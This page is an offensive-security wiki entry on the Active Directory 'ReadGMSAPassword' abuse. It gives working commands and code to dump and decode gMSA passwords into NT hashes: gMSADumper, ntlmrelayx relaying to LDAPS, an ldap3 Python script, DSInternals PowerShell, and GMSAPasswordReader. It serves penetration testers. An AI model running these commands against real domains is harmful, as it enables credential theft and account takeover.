 # ReadGMSAPassword

This abuse stands out a bit from other abuse cases. It can be carried out when controlling an object that has enough permissions listed in the target gMSA account's `msDS-GroupMSAMembership` attribute's DACL. Usually, these objects are principals that were configured to be explictly allowed to use the gMSA account.

The attacker can then read the gMSA (group managed service accounts) password of the account if those requirements are met.&#x20;

{% tabs %}
{% tab title="UNIX-like" %}
On UNIX-like systems, [gMSADumper](https://github.com/micahvandeusen/gMSADumper) (Python) can be used to read and decode gMSA passwords. It supports cleartext NTLM, pass-the-hash and Kerberoas authentications.

```bash
gMSADumper.py -u 'user' -p 'password' -d 'domain.local'
```

****

**Alternative #1**: Impacket's [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) tool can be used to read and decode gMSA passwords. :warning: Some tests showed ntlmrelayx missed entries gMSADumper didn't.

```bash
ntlmrelayx.py -t ldaps://10.0.0.5 -debug --dump-gmsa --no-dump --no-da --no-acl --no-validate-privs 
```

{% hint style="success" %}
In order to easily fake a relayed authentication, once the relay servers are up and running, the tester can browse [http://127.0.0.1/](http://127.0.0.1/) in order to trigger a basic authentication that will then be relayed by ntlmrelayx, like [this](https://arkanoidctf.medium.com/hackthebox-writeup-forest-4db0de793f96).
{% endhint %}



**Alternative #2**: The `msDS-ManagedPassword` attribute can also be manually obtained by running the following Python script. The [following code](https://github.com/SecureAuthCorp/impacket/blob/3f3002e1c1dd78a5ee6100d6824ff7b65bbb92b6/impacket/examples/ntlmrelayx/attacks/ldapattack.py#L672-L702) can then be used to decode the blob.

```python
import ldap3
target_dn = "" # something like 'CN=Target User,OU=Standard Accounts,DC=domain,DC=local'
domain = "domain"
username = "username"
user = "{}\\{}".format(domain, username)
password = "password"
server = ldap3.Server(domain)
connection = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
connection.bind()
connection.search(target_dn, '(&(ObjectClass=msDS-GroupManagedServiceAccount))', search_scope=ldap3.SUBTREE, attributes=['sAMAccountName','msDS-ManagedPassword'])
print(connection.entries)
```
{% endtab %}

{% tab title="Windows" %}
On Windows systems, there are multiple ways to read gMSA passwords.

The first one uses the Active Directory and DSInternals PowerShell modules.

```bash
# Save the blob to a variable
$gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

# Decode the data structure using the DSInternals module
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
```

The second one relies on [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader) (C#).

```bash
.\GMSAPasswordReader.exe --AccountName 'Target_Account'
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://cube0x0.github.io/Relaying-for-gMSA/" %}
